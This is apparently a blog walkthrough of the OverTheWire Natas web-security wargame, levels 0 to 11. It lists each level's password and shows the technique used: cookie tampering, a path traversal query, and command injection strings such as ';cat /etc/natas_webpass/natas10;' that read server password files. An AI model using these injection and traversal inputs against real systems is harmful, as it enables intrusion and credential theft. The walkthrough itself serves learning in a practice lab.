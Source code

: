 ```yaml
---
draft: false
date: '2016-11-04'
title: 'Guide: Over The Wire - Natas'
tags: ['guide', 'info sec', 'linux']
summary: "Walkthrough of each level of Over the Wire's Natas series. Its a game which helps players master web server vulnerabilities testing"
---
```


## Natas

Natas teaches the basics of server side web-security.
Each level of natas consists of its own website located
`http://natasX.natas.labs.overthewire.org`.

The server is a PHP server.

Topics range from searching through resource files to command injection as a means
compromising the victim machine.

## Level 0

natas0

Search HTML for pw.

## Level 1

Pw in HTML, but must open source with hotkeys

## Level 2

h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

Pw isn't on the page but a resource file, `users.txt`.

http://natas2.natas.labs.overthewire.org/files/users.txt

## Level 3

G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

Pw isn't inside that file but robots.txt, a disallowed route

`http://natas3.natas.labs.overthewire.org/robots.txt`

`http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt`

## level 4

natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

Use Burp & ProxyFoxy to intercept requests and change them before forwarding to
the server.

The response will include the pw.

## level 5

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Use JS console to change document cookie and refresh.

document.cookie="loggedin=1"

## level 6

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

Checkout a file that is included in the source code that the page points to.
`http://natas6.natas.labs.overthewire.org/includes/secret.inc`

## level 7

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

We can trick the server into showing us the page at that path using a query parameter.

`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

## level 8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

Use tehplayground.com to reverse engineer the encoded password thats being compared.

## level 9

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

`https://www.alevsk.com/2020/01/ctf-overthewire-natas9/`

Use command injection

;ls -la;
To see files on the server

;cat /etc/natas_webpass/natas10;

To read from a file on the server

## level 10

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

Search for this value
a /etc/natas_webpass/natas11

Use the logic of the function to invoke grep command and search for pw in a file
on the server

## level 11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
